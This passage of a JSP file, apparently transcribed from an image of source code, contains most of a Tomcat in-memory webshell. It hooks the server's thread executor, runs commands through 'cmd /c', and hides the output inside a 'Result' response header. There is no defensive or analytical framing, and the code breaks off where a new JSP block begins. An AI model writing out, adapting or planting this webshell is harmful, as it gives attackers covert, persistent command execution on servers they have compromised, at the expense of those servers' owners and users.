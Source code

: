 ```bash
                            Process process = rt.exec("cmd /c " + b);
                            java.io.InputStream in = process.getInputStream();
                            java.io.InputStreamReader resultReader = new java.io.InputStreamReader(in);
                            java.io.BufferedReader stdInput = new java.io.BufferedReader(resultReader);
                            StringBuilder s = new StringBuilder();
                            String tmp;
                            while ((tmp = stdInput.readLine()) != null) {
                                s.append(tmp);
                            }
                            if (!s.toString().isEmpty()) {
                                byte[] res = s.toString().getBytes(StandardCharsets.UTF_8);
                                getResponse(res);
                            }
                        } catch (IOException ignored) {}
                    }
                }
            } catch (Exception ignored) {}
        }

        public void getResponse(byte[] res) {
            try {
                Thread[] threads = (Thread[]) getField(Thread.currentThread().getThreadGroup(), "threads");
                for (Thread thread : threads) {
                    if (thread != null) {
                        String threadName = thread.getName();
                        if (!threadName.contains("exec") && threadName.contains("Acceptor")) {
                            Object target = getField(thread, "target");
                            if (target instanceof Runnable) {
                                try {
                                    ArrayList objects = (ArrayList) getField(getField(getField(getField(target, "endpoint"), "handler"), "global"), "processors");
                                    for (Object tmp_object : objects) {
                                        RequestInfo request = (RequestInfo) tmp_object;
                                        Response response = (Response) getField(getField(request, "req"), "response");
                                        String result = URLEncoder.encode(new String(res, StandardCharsets.UTF_8), StandardCharsets.UTF_8.toString());
                                        response.addHeader("Result", result);
                                    }
                                } catch (Exception ignored) {
                                    continue;
                                }
                            }
                        }
                    }
                }
            } catch (Exception ignored) {
            }
        }

        @Override
        public void execute(Runnable command) {
            getRequest(command);
            this.execute(command, 0L, TimeUnit.MILLISECONDS);
        }
    }
%>

<%
    NioEndpoint nioEndpoint = (NioEndpoint) getStandardService();
```